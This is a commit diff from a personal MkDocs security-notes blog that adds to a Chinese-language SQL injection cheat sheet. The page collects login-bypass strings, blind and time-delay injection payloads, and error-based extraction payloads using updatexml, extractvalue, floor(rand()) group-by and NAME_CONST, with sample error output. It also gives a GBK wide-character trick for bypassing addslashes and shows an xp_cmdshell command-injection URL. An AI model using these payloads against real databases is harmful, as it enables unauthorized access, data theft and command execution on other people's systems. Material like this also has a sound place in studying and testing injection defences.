

Before and after one commit to Windforce17/blog, an MkDocs documentation site: the page built from docs/Web&Attack/SQL注入.md, in a window 1280 px wide and 1400 px high, scrolled down 2273 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
add more sql inject

````diff
--- a/docs/Web&Attack/SQL注入.md
+++ b/docs/Web&Attack/SQL注入.md
@@ -22,18 +22,37 @@
 system_user() 系统用户名
 current_user() 当前用户名
 session_user() 连接数据库的用户名
-floor() 取整
-rand() 随机0-1
 concat("abc","123")=abc123
 concat("abc",0x22,"123")=abc"123
 ```
 ### 万能密码
-`'or 1#`
+```
+'or 1#
+admin' --
+admin' #
+admin'/*
+' or 1=1--
+' or 1=1#
+' or 1=1/*
+') or '1'='1--
+') or ('1'='1--
+以不同的用户登陆 ' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--
+```
+
 其他待补充
+### bool型注入
+一般适用于无回显消息，但是错误的话，页面会不正确的情况，而延时注入适用于在sql语句错误时页面还正常的情况。
 
-### 手工注入
+常用函数:
+- Length()函数 返回字符串的长度
+- Substr()截取字符串
+- Ascii()返回字符的ascii码
+- if(expr1,expr2,expr3) 判断语句 如果第一个语句正确就执行第二个语句如果错误执行第三个语句
+### 延时注入
+```sql
+(IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false))
+-- BENCHMARK()
 
-```sql
 select sleep(if(length(@@version)=6,20,0));
 --长度为6 sleep 2秒，否则0秒。
 
@@ -77,6 +96,63 @@
     print "flag:",flag
     break
 print "result:"+flag
+```
+
+### 报错注入
+
+```sql
+// mysql<5.5.47
+select (select(!x-~0)from(select(select user())x)a);
+--- ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('root@localhost')) - ~(0))'
+```
+从mysql5.1.5开始提供两个[XML查询和修改的函数](https://dev.mysql.com/doc/refman/5.7/en/xml-functions.html)，extractvalue和updatexml。extractvalue负责在xml文档中按照xpath语法查询节点内容，updatexml则负责修改查询到的内容,它们的第二个参数都要求是符合xpath语法的字符串，如果不满足要求，则会报错，并且将查询结果放在报错信息里：
+
+```sql
+select updatexml(1,concat(0x7e,(select @@version),0x7e),1);
+--- ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'
+select extractvalue(1,concat(0x7e,(select @@version),0x7e));
+--- ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'
+```
+
+主键重复:实际上只要是count，rand()，group by三个连用就会造成这种报错，与位置无关,常见的payload
+```sql
+select count(*) from test group by concat(version(),floor(rand(0)*2));
+-- ERROR 1062 (23000): Duplicate entry '5.7.171' for key '<group_key>'
+select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x;
+-- ERROR 1062 (23000): Duplicate entry '5.7.171' for key '<group_key>'
+
+
+--- 查询数据库的个数：
+select concat(0x7e,count(schema_name),0x7e) from information_schema.schemata
+--- payload组合语句：
+and (select 1 from (select count(),concat((select (select (select concat(0x7e,count(schema_name),0x7e) from information_schema.schemata)) from information_schema.tables limit 0,1),floor(rand(0)2))x from information_schema.tables group by x)a)
+
+--- 获取数据库名字：
+select concat(0x7e,schema_name,0x7e) from information_schema.schemata limit 0,1
+---payload组合语句：
+and (select 1 from (select count(),concat((select (select (select concat(0x7e,schema_name,0x7e) from information_schema.schemata limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
+```
+
+mysql列名重复会报错
+```sql
+select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;
+--- ERROR 1060 (42S21): Duplicate column name '5.7.17'
+
+select *  from(select * from test a join test b)c;
+--- ERROR 1060 (42S21): Duplicate column name 'id'
+select *  from(select * from test a join test b using(id))c;
+--- ERROR 1060 (42S21): Duplicate column name 'name'
+
+```
+几何函数：`geometrycollection()`，`multipoint()`，`polygon()`，`multipolygon()`，`linestring()`，`multilinestring()`:
+```sql
+
+-- 5.5.47
+select multipoint((select * from (select * from (select version())a)b));
+ERROR 1367 (22007): Illegal non geometric '(select `b`.`version()` from ((select '5.5.47' AS `version()` from dual) `b`))' value found during parsing
+-- 5.7.17
+select multipoint((select * from (select * from (select version())a)b));
+-- ERROR 1367 (22007): Illegal non geometric '(select `a`.`version()` from ((select version() AS `version()`) `a`))' value found during parsing
 ```
 
 ### sqlmap
@@ -135,6 +211,10 @@
 ```
 cnseay.com/1.aspx?id=1;EXEC('ma'+'ster..x'+'p_cm'+'dsh'+'ell "net user"')
 ```
+
+7. 宽字符注入
+这种方式主要是绕过 addslashes 等对特殊字符进行转移的绕过。反斜杠 \ 的十六进制为 %5c，在你输入 %bf%27 时，函数遇到单引号自动转移加入 \，此时变为 %bf%5c%27，%bf%5c 在 GBK 中变为一个宽字符「縗」。%bf 那个位置可以是 %81-%fe 中间的任何字符。不止在 SQL 注入中，宽字符注入在很多地方都可以应用。
+
 ### sqlmap 自带的绕过脚本 --tamper详解
 ```
 (1) apostrophemask.py UTF-8编码
````
Also changed, not shown: other parts of docs/Web&Attack/SQL注入.md (+1 -5 lines), docs/Web&Attack/upload&parsing.md (renamed from docs/Web&Attack/upload.md, +15 -5 lines), docs/Web&Attack/信息收集.md (+5 -0 lines), docs/Web&Attack/各种漏洞.md (+13 -0 lines).
